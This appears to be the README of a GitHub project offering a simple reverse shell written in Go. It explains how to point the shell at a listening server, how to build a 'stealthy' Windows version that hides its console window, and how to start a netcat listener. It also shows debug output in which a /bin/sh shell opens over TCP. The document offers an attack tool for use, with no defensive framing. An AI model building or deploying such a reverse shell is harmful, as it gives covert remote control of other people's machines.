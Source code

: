 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Stealthy version `GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" main.go` (Windows target, build from macos)
- Start listening on the server using `netcat -l -p 8080`

Example debug output
```
github.com/orf1/reverse-shell-go
attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
attempting to establish tcp connection with server
connection established
detecting operating system
detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
